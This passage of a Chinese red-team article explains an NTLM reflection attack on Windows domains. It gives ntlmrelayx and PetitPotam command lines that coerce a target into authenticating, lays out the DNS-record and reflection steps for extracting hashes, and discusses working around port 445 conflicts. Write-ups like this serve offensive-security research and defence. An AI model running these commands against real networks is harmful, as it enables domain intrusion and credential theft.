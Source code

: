 ```
python ntlmrelayx.py -t 192.168.214.135 -smb2support
```  
  
  
3.   
强制目标服务器向指定的主机发起 NTLM 认证  
。  
  
```
python PetitPotam.py -d luckytom.com -u domainuser01 -p User01!@# badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 192.168.214.135
```  
  
  
具体的攻击逻辑是如何实现的呢?  
  
```
1. 攻击者在域控上添加一条精心构造的 DNS 记录，将主机名 badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 指向攻击者的 IP 192.168.214.1382. 攻击者在内网跳板机（不必在域内，网络连通即可）上启动 SMB/LDAP 等协议的监听，接收到目标主机发起的 NTLM 认证请求后将其反射回目标主机3. 强制目标主机向 badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 发起 NTLM 认证3. 目标主机向域控查询 badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 的 A 记录，并解析到 IP 192.168.214.1384. 目标主机向攻击者（192.168.214.138）发起 NTLM 认证请求5. 攻击者将收到的认证请求反射回目标主机6. 目标主机触发漏洞进行本地身份验证7. 在本地身份验证握手中，攻击者监听到有 Token 的上下文句柄，并提取 Hash
```  
  
0x03 实战中不是问题的问题  
  
  
参考资料  
  
```
1. Windows 445 端口占用2. 相关利用脚本均依赖impacket
```  
  
  
依赖  
impacket  
是很常见的问题，一般走隧道解决即可，主要问题在于入口机器如果是 Windows 的话，则会存在因为系统默认的 SMB 服务导致的端口占用问题。  
  
如果在 Windows 下直接开启监听，那么会遇到监听失败的情况，而如果通过  
--smb-port  
监听指定端口，又会导致默认是跟 445 端口进行验证而无法正常获取到上下文句柄的问题。那么如何解决呢？  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2El0HJiatcJSs4WicBZ1RGVWJVr730xYzYCoI0LPYjklEsPQ6oSticRtAJnA/640?wx_fmt=png&from=appmsg "")  
  
原本想通过对 PetitPotam.py 进行改造以实现非默认端口的认证，但是受限于   
badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  
 的影响，最终没找到可以直接指定端口的方法，具体原因不与漏洞原理有关，可以参考上一篇文章，如果有师傅想继续研究可以跟我交流。  
  
除此之外还能想到就是端口转发，关闭SMB服务等方法。关闭SMB服务对系  
统影响较大  
，也不符合红队行动规范，因此最终通过  
康哥（@浮尘云烟）  
推荐的   
StreamDivert  
 实现转发，  
具体的利用  
将在后续讲到。  
  
那么为什么说这是一个不是问题的问题呢？因为在实际利用当中我们大概率是会使用隧道来执行脚本的，那么我们的攻击机器完全可以使用 Linux 系统。  
  